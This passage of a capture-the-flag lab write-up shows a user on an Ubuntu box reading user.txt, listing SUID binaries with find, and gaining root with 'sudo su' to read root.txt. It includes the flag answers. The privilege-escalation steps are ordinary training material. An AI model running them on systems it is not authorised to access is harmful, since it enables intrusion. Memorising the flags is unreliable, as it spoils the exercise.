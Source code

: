 ```bash
uid=1000(nyan) gid=1000(nyan) groups=1000(nyan),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),114(lpadmin),115(sambashare)

nyan@ubuntu:~$ ls
user.txt

nyan@ubuntu:~$ cat user.txt
supernootnoot
```

### Privilege Escalation - Abusing SUID

- Locate the files with **SUID** bit set:

```bash
nyan@ubuntu:~$ find / -type f -perm /4000 2>/dev/null
/bin/mount
/bin/umount
/bin/ntfs-3g
/bin/ping6
/bin/su
/bin/ping
/bin/fusermount
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/vmware-user-suid-wrapper
```

- Abusing the SUID bit of **sudo** to get root access.

```bash
nyan@ubuntu:~$ sudo su

root@ubuntu:/home/nyan# id
uid=0(root) gid=0(root) groups=0(root)
```

### root.txt
- **Answer:** congratulations!!!!
- **Steps to Reproduce:** 

```bash
root@ubuntu:/home/nyan# cd 

root@ubuntu:~# ls
root.txt

root@ubuntu:~# cat root.txt
congratulations!!!!
```

---